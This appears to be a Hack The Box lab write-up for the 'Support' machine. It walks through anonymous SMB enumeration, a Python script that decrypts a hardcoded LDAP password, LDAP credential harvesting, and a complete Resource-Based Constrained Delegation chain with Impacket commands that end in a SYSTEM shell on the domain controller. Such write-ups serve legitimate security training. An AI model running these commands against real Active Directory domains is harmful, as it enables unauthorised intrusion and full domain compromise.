


# HTB: Support

**Machine Write-up**

## Executive Summary

Support is a Windows Active Directory machine that tests anonymous SMB share abuse, .NET binary reverse engineering for credential extraction, LDAP enumeration, and Resource-Based Constrained Delegation (RBCD) abuse for full domain compromise.

The attack chain consists of five phases: anonymous SMB enumeration to retrieve an internal support utility, static reverse engineering of that binary to recover an LDAP service account's credentials, LDAP enumeration that exposed a cleartext password stored in a user account's "info" attribute, WinRM access using that account, and BloodHound-driven privilege escalation by abusing a `GenericAll` ACL on the Domain Controller's own computer object to perform an RBCD attack and obtain a Domain Administrator service ticket.

---

## Phase 1: Reconnaissance & Enumeration

### Network Scanning

An initial nmap scan against the target revealed a full Active Directory Domain Controller fingerprint:

- Port 53 — Simple DNS Plus
- Port 88 — Kerberos (server time confirms domain time source)
- Ports 135 / 139 / 445 — RPC / NetBIOS / SMB
- Ports 389 / 3268 — LDAP, Domain: `support.htb`
- Port 464 — kpasswd
- Ports 593 / 636 / 3269 — RPC over HTTP / LDAPS / Global Catalog SSL
- Port 5985 — WinRM

This combination of ports immediately identifies the host as a Domain Controller for the `support.htb` domain (hostname `DC`), with SMB signing enabled and required.

```bash
nmap <Machine_IP> -sV -sC -O

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows AD LDAP (Domain: support.htb)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows AD LDAP (Domain: support.htb)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0
Service Info: Host: DC; OS: Windows
```

---

## Phase 2: SMB Anonymous Enumeration & Credential Recovery

### Anonymous Share Access

Listing shares without credentials exposed a non-default share alongside the standard administrative ones:

```bash
smbclient -L //<Machine_IP>/

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
support-tools   Disk      support staff tools
SYSVOL          Disk      Logon server share
```

Anonymous (null session) access to `support-tools` was permitted:

```bash
smbclient //<Machine_IP>/support-tools -N
smb: \> ls
  7-ZipPortable_21.07.paf.exe
  npp.8.4.1.portable.x64.zip
  putty.exe
  SysinternalsSuite.zip
  UserInfo.exe.zip          <-- not a standard portable tool
  windirstat1_1_2_setup.exe
  WiresharkPortable64_3.6.5.paf.exe
```

Most files are well-known portable utilities. `UserInfo.exe.zip` stood out as a custom/internal tool rather than an off-the-shelf application, making it the natural pivot point.

### Static Analysis of UserInfo.exe (monodis)

After downloading and extracting the archive, the binary's headers identified it as a .NET/Mono assembly, so it was disassembled to IL with `monodis`:

```bash
monodis UserInfo.exe > disassembly.txt
```

Reading the IL revealed an LDAP bind routine with a hardcoded service account, and a custom obfuscation scheme protecting its password:

```
IL_000d: ldstr "LDAP://support.htb"
IL_0012: ldstr "support\\ldap"
IL_0000: ldstr "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
IL_0005: stsfld string UserInfo.Services.Protected::enc_password
IL_000f: ldstr "armando"
IL_0019: stsfld unsigned int8[] UserInfo.Services.Protected::key

getPassword()
IL_0025: xor
IL_0026: ldc.i4 223
IL_002b: xor
```

Reverse-engineered logic: the stored secret is Base64-decoded, then each byte is XORed against the ASCII key `"armando"` (cycled), then XORed a second time against the constant `223`.

### Recovering the Plaintext Password

This logic was reimplemented in a small Python script (`solve.py`) to recover the cleartext credential:

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"
constant_xor = 223

encrypted_bytes = base64.b64decode(enc_password)
decrypted_chars = []

for i in range(len(encrypted_bytes)):
    b = encrypted_bytes[i]
    k = ord(key[i % len(key)])
    decrypted_byte = b ^ k ^ constant_xor
    decrypted_chars.append(chr(decrypted_byte))

print("[+] LDAP Username: support\\ldap")
print(f"[+] Decrypted LDAP Password: {''.join(decrypted_chars)}")
```

```bash
python3 solve.py
[+] LDAP Username: support\ldap
[+] Decrypted LDAP Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

---

## Phase 3: LDAP Enumeration & Initial Foothold

The recovered `ldap` account has read access to the directory but no interactive logon rights, so it was used purely for enumeration via `ldapsearch`:

```bash
ldapsearch -x -H ldap://<Machine_IP> \
  -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
  -b "DC=support,DC=htb" "(objectCategory=user)" sAMAccountName

# 20 user entries returned, including:
# Administrator, Guest, krbtgt, ldap, support,
# smith.rosario, hernandez.stanley, wilson.shelby, ...(15 more)
```

A targeted lookup of the `support` account itself surfaced an anomaly: a cleartext password sitting in the standard "info" (notes) attribute — a known weak practice of stashing credentials in account metadata instead of a password vault.

```bash
ldapsearch -x -H ldap://<Machine_IP> -D "support\\ldap" \
  -w '<ldap_password>' -b "CN=support,CN=Users,DC=support,DC=htb"

dn: CN=support,CN=Users,DC=support,DC=htb
info: Ironside47pleasure40Watchful   <-- cleartext password
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
```

Membership in Remote Management Users meant this account could authenticate over WinRM directly:

```bash
evil-winrm -i <Machine_IP> -u 'support' -p 'Ironside47pleasure40Watchful' -s ./
*Evil-WinRM* PS C:\Users\support\Desktop> dir
-ar---   ...    34 user.txt
```

---

## Phase 4: AD Attack-Path Mapping — BloodHound

With a foothold secured, the domain was mapped with `bloodhound-python` using the `support` credentials:

```bash
bloodhound-python -u 'support' -p 'Ironside47pleasure40Watchful' \
  -d support.htb -dc support.htb -ns <Machine_IP> -c All --zip

WARNING: Failed to get Kerberos TGT (Clock skew too great)
         -> fell back to NTLM authentication automatically
INFO: Found 21 users / 53 groups / 1 computer
INFO: Compressing output into 20260621015621_bloodhound.zip
```

Importing the collection into BloodHound and running Pathfinding from `support@support.htb` to Domain Admins surfaced a short, direct escalation path:


*Figure 1 — Attack path: `support` is a member of Shared Support Accounts, which holds GenericAll on the Domain Controller's own computer object.*

Clicking the `GenericAll` edge opens BloodHound's built-in abuse guidance, confirming the exact technique this ACL enables on a computer object: Resource-Based Constrained Delegation (RBCD).


*Figure 2 — BloodHound's GenericAll abuse panel, describing the RBCD attack chain (`addcomputer.py` → `rbcd.py` → `getST.py`).*

**The key finding:** any member of Shared Support Accounts — including `support` — has full control (`GenericAll`) over the DC's own computer object in Active Directory, meaning they can rewrite its delegation settings.

---

## Phase 5: Privilege Escalation — RBCD Attack Chain

The `GenericAll` right was abused end-to-end to forge a Domain Administrator service ticket:

**Step 1 — Register an attacker-controlled computer account**

```bash
addcomputer.py -method SAMR -computer-name 'ATTACKERSYSTEM$' \
  -computer-pass 'Summer2026!' -dc-host dc.support.htb \
  -domain-netbios SUPPORT -domain support.htb \
  'support.htb/support:Ironside47pleasure40Watchful'

[*] Successfully added machine account ATTACKERSYSTEM$
```

**Step 2 — Configure RBCD on the Domain Controller object**

```bash
rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' \
  -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'

[*] Delegation rights modified successfully!
[*] ATTACKERSYSTEM$ can now impersonate users on DC$ via S4U2Proxy
```

**Step 3 — Request a service ticket impersonating Administrator**

```bash
getST.py -spn 'cifs/dc.support.htb' -impersonate 'administrator' \
  -dc-ip <Machine_IP> 'support.htb/ATTACKERSYSTEM$:Summer2026!'

[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

**Step 4 — Pass-the-Ticket to a SYSTEM-level shell**

```bash
export KRB5CCNAME=administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
psexec.py -k -no-pass dc.support.htb

[*] Found writable share ADMIN$
[*] Creating service xHvH on dc.support.htb.....
C:\Windows\System32> whoami
nt authority\system
```

**Step 5 — Flag retrieval**

```bash
C:\Users\Administrator\Desktop> dir
06/22/2026  02:04 PM     34 root.txt
```

---

## Techniques Summary

| Technique | Description | Impact |
|---|---|---|
| Anonymous SMB Enumeration | Null-session access to the `support-tools` share | Disclosure of a credential-bearing internal binary |
| .NET Reverse Engineering (monodis) | Static IL analysis of a custom Base64 + double-XOR obfuscation scheme | Recovery of the LDAP service account's password |
| LDAP Enumeration | Authenticated query using the low-privilege `ldap` account | Cleartext password found in a user's `info` attribute |
| WinRM Access | `support` account is a member of Remote Management Users | Interactive shell, `user.txt` |
| GenericAll → RBCD Abuse | Shared Support Accounts group holds GenericAll on the DC computer object | Forged service ticket impersonating Administrator |
| Pass-the-Ticket (psexec.py) | Kerberos ccache used for SMB/RPC authentication | `NT AUTHORITY\SYSTEM` shell on the DC, `root.txt` |
